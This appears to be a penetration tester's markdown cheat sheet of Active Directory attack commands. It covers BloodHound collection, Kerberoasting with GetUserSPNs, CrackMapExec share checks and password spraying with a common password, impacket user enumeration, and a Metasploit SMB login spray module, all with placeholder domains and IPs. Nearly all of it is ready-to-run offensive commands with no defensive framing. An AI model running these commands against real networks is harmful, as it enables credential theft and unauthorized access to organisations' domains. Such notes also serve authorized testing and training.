 Bloodhound From Kali
---------------------------------------------------------------
`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target)`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 
